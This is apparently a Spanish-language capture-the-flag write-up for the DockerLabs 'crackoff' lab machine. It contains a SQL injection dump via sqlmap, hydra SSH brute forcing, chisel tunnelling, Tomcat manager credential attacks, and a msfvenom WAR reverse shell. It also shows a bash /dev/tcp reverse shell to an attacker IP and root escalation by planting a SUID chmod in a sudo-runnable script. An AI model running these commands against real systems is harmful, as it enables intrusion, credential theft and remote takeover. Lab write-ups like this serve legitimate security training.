

Maquina crackoff de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Dificil


# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Aug 26 20:58:30 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-08-26 20:58:30 -03 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3d:fc:bd:41:cb:81:e8:cd:a2:58:5a:78:68:2b:a3:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNuJZkQSLJmcZX14n7uNiUBZ/Li3VabQ8/HRKIsPXb/9CZmDhjdBLLRgvjL9NpgVgU2gGEFTSkljIn0SGcgaoIY=
|   256 d8:5a:63:27:60:35:20:30:a9:ec:25:36:9e:50:06:8d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINZLckodawlUx1KSiq+zaADv0w1jbQwrlE98GYdEY/jH
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CrackOff - Bienvenido
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 26 20:58:39 2024 -- 1 IP address (1 host up) scanned in 9.35 seconds

```

Solo vemos el puerto 80 y 22 abierto, por lo que continuaremos al navegador.

#### PUERTO 80:


Luego de ver un rato, entré en "Iniciar Sesión" y vi un panel de login que es vulnerable a inyeccion sql, por lo que ejecutaremos lo siguiente para poder ver la base de datos:

```css
sqlmap -u "http://172.17.0.2/login.php" --forms --batch --dbs --time-sec=1 --dump
```

```css
+----+---------------------------+------------------+
| id | password                  | username         |
+----+---------------------------+------------------+
| 1  | password123               | rejetto          |
| 2  | alicelaultramejor         | tomitoma         |
| 3  | passwordinhack            | alice            |
| 4  | supersecurepasswordultra  | whoami           |
| 5  | estrella_big              | pip              |
| 6  | colorcolorido             | rufus            |
| 7  | ultramegaverypasswordhack | jazmin           |
| 8  | unbreackroot              | rosa             |
| 9  | happypassword             | mario            |
| 10 | admin12345password        | veryhardpassword |
| 11 | carsisgood                | root             |
| 12 | badmenandwomen            | admin            |
+----+---------------------------+------------------+
```

Como vemos, tenemos varios usuarios, por lo que nos lo guardaremos en un `user.txt` y `pass.txt`. Luego ejecutaremos hydra con ambos apuntando al puerto 22 de ssh.

```css
hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV
```

```css
[22][ssh] host: 172.17.0.2   login: rosa   password: ultramegaverypasswordhack
```

# INTRUSION

Teniendo creedenciales del ssh nos conectaremos y listo. `ssh rosa@172.17.0.2`.

# ESCALADA DE PRIVILEGIOS

### ROSA

Luego de buscar un rato, se me ocurre ver si hay puertos abiertos localmente, para esto simplemente ejecutamos `netstat -punta` y listo.

```css
rosa@e95886b6af7e:~$ netstat -punta
(No info could be read for "-p": geteuid()=1002 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8005          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.2:22           172.17.0.1:41524        ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
rosa@e95886b6af7e:~$ 
```

Aca lo unico que nos importa es que `el puerto 8080 esta abierto`, por lo que nos bajamos el [chisel](https://github.com/jpillora/chisel/releases/tag/v1.10.0) y nos lo pasamos a rosa, ahora tendremos que ejecutar esto:

```css
MAQUINA ATACANTE:
./chisel server --reverse -p 1111
```

```css
MAQUINA VICTIMA
./chisel client 192.168.1.101:1111 R:socks
```

Ahora solo modificamos el archivo `/etc/proxychains` y ponemos al final:

```css
socks5 127.0.0.1 1080
```

Una vez hecho esto, ya tendremos conectividad con el puerto 8080, por lo que tendremos que entrar a `127.0.0.1:8080` desde el navegador:

#### PUERTO 8080:


Como vemos hay un tomcat, pero si queremos ir a "manager app" nos pide contraseña, por lo que haremos lo siguiente:

```css
proxychains msfconsole
```

Una vez iniciada ejecutaremos lo siguiente:

```css
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 127.0.0.1
set RPORT 8080
set USER_FILE /home/kali/users.txt
set PASS_FILE /home/kali/pass.txt
set TARGETURI /manager/html
```

Con `USER_FILE` le pasaremos nuestra wordlist anterior de usuarios, y con `PASS_FILE` la de contraseñas, una vez hecho todo esto nos deberia encontrar la siguiente contraseña:

```css
[+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra
```

Por lo que ya tendremos una contraseña y usuario, ahora simplemente nos queda enviarnos una reverse shell como el usuario "tomcat", para esto entraremos a "manager app" con nuestras credenciales, y en nuestra maquina local nos crearemos un .war malicioso, para hacerlo ejecutamos:

```css
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=9090 -f war -o rev.war
```

Y esto lo cargaremos en la página en la parte que dice "Seleccione archivo WAR a cargar ", y luego apretamos en desplegar.

Ahora volvemos a nuestra maquina atacante y abriremos la msfconsole, luego ejecutaremos todo esto:

```css
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 192.168.1.101
set LPORT 9090
exploit
```

una vez ejecutado todo esto, entraremos desde el navegador a `http://127.0.0.1:8080/rev/`, esperamos un poco y recibiremos la reverse shell.

### TOMCAT

Estando dentro de la msfconsole nos enviamos una reverse shell para poder dejar de usarla y estar mas cómodos, simplemente escucharemos con netcat en el puerto que queramos(en mi caso el 9090) y luego en msfconsole ejecutamos:

```css
bash -i >& /dev/tcp/192.168.1.101/9090 0>&1
```

Ahora hacemos el tratemiento de la tty, que seria esto:

```css
script /dev/null -c bash #damos al enter y presionamos ctrl+Z
stty raw -echo;fg # damos al enter y escribimos "reset xtern" y volvemos a dar al enter
export TERM=xterm && export SHELL=bash
stty rows 33 columns 128
```

Ahora ejecutamos un `sudo -l` y vemos lo siguiente:

```css
Matching Defaults entries for tomcat on e95886b6af7e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tomcat may run the following commands on e95886b6af7e:
    (ALL) NOPASSWD: /opt/tomcat/bin/catalina.sh
```

viendo que podemos ejecutarlo como root y que encima lo podemos modificar, haremos que le de permisos SUID a bash. Para hacer esto modificamos la primer linea y cambiamos `sh` por `bash` y en la segunda un `chmod u+s /bin/bash`, una vez hecho esto ejecutamos el script como root y luego ponemos `bash -p`. *Ya somos root*:



Gracias por leer.....